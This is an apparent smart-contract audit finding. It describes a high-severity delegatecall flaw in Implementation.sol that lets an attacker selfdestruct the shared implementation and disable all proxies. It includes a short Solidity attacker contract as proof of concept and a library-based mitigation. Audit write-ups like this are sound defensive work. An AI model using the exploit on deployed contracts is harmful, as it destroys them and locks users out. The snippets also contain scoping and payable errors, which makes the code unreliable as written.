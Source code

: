 # Delegate Call in an unsafe storage context

Severity: High

Context: [`Implementation.sol`](https://github.com/spearbit-audits/writing-exercise/blob/develop/contracts/Implementation.sol)

The exploit focus on Implementation.sol contract deployed once and used in Proxy.sol leading to disabling all proxy contracts.

**Proof of Concept**

The attacker calls callContract in implementation contract.

The callContract function calls the implementation contract again, using the delegatecallContract function.

The delegatecallContract function delegatecall the attack function in malicious contract, here the context is implementation contract.

When malicious contract executes Attack function it will exploit the implementation contract thus disable the Proxy Contract because the context is the implementation contract.

Here is an example of attacker contract that can selfdestruct the implementation contract by calling attack()

```solidity

function attack(address implementation) external {
  bytes memory data = abi.encodeWithSignature(
    "delegatecallContract(address,bytes)",
    address(this),
    abi.encodeWithSignature("destruct()")
  );
  Implementation(implementation).callContract(implementation, data);
}

function destruct() external {
  selfdestruct(implementation);
}

```

**Recommended Mitigation Steps**

When creating libraries, use stateless library, not contract, to ensure libraries will not modify caller storage data when caller uses delegatecall.
A library is a type of contract that doesn't allow payable functions and cannot have a fallback function (this limitations are enforced at compile time, therefore making it impossible for a library to hold funds

```solidity
library Implementation {
  function callContract(address a, bytes calldata _calldata)
    external
    returns (bytes memory)
  {
    (bool success, bytes memory ret) = a.call{ value: msg.value }(_calldata);
    require(success);
    return ret;
  }

  function delegatecallContract(address a, bytes calldata _calldata)
    external
    returns (bytes memory)
  {
    (bool success, bytes memory ret) = a.delegatecall(_calldata);
    require(success);
    return ret;
  }
}
```

